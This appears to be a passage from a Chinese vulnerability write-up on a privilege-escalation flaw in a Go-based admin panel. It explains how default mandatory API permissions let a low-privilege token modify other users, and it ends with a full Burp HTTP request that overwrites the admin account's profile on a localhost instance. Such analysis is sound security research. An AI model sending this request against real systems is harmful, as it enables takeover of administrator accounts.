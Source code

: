 > 这里有一个争议，就是既然都知道了别人的账号密码，直接登录他的账号不就可以了吗，确实是这样的，但是我们这里的程序逻辑流程是，我们已经鉴权完毕了，正常来说我当前用户也只能修改当前用户的一个密码，可是这里可以通过修改ID来修改别人的，换个角度想也是暴力破解了可以，因为登录页面是有验证码校验的。

### 四、漏洞原理分析

> ps: 以下所有内容出自一个完全没学过Go的，也没做过开发的，只会Python的脚本小子的理解

首先从正常的业务逻辑来看这里为什么会造成越权，其实原理比较简单，主要是因为，我们在新建角色权限的时候，有几个必选的参数，也就是这几个参数，选了之后，用户才有机会越权（但是也不能不选，因为这是默认的必选参数），其实最终还是在代码上存在逻辑问题。

![image-20211230162340184](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230162340184.png)

首先我们看，在新建完角色之后，查看角色的权限

![image-20211230162510272](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230162510272.png)

可以看到，默认新建的用户权限，在角色菜单中，只有一个可以访问仪表盘的权限，但是我们查看角色的API权限就会发现

![image-20211230162602998](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230162602998.png)

这里有几个必选的权限

+ 用户注册
+ 设置用户信息
+ 获取自身信息
+ 修改密码
+ 修改用户角色

这也是这一次漏洞的来源，首先是设置用户信息，如果我们取消勾选

![image-20211230162752207](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230162752207.png)

然后我们将低权限角色组的账号Token放进Burp进行尝试

![image-20211230163029027](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20211230163029027.png)

```http
PUT /api/user/setUserInfo HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJVVUlEIjoiZjkwNjRhMWItNzU2Yi00NTNjLTlkNDAtOWZlZmY5OWI2ZTUxIiwiSUQiOjMsIlVzZXJuYW1lIjoiVXpKdV9IeFNlY1RlYW0iLCJOaWNrTmFtZSI6IlV6SnVfSHhTZWNUZWFtIiwiQXV0aG9yaXR5SWQiOiIxMjM0IiwiQnVmZmVyVGltZSI6ODY0MDAsImV4cCI6MTY0MTQ1Nzc1NywiaXNzIjoicW1QbHVzIiwibmJmIjoxNjQwODUxOTU3fQ.rHCKW7c2kIsaCRKsgI1Nizu18dGKfsOH_m_dW59cY9U
x-user-id: 1
Content-Length: 83
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"id":1,
"username":"admin",
"nickName":"超级用户管理员",
"headerImg":""}
```
